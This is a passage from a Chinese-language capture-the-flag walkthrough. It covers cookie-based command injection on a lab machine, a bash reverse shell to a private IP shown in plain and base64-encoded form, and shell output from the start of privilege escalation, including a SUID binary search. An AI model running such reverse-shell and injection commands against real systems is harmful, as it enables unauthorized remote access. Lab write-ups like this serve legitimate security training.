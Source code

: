 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249798.png" alt="image-20240314192808554" style="zoom:50%;" />

说明它识别了，知识cookie值没有被接收，尝试进行编码处理。

这里我改成id了：

![image-20240314193428665](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249799.png)

### 反弹shell

说明是可以进行注入的，尝试反弹shell：

```bash
bash -c 'exec bash -i &>/dev/tcp/10.161.61.130/1234 <&1'
YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTYxLjYxLjEzMC8xMjM0IDwmMSc=
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249800.png" alt="image-20240314194008216" style="zoom:50%;" />

获得了一个shell。

## 提权

### 查看基础信息

```text
bash: cannot set terminal process group (436): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ whoami;id
whoami;id
miwa
uid=1000(miwa) gid=1000(miwa) groups=1000(miwa)
bash-5.2$ uname -a
uname -a
Linux universe 6.1.0-17-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.69-1 (2023-12-30) x86_64 GNU/Linux
bash-5.2$ crontab -l
crontab -l
no crontab for miwa
bash-5.2$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/bash
/usr/bin/gpasswd
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
```
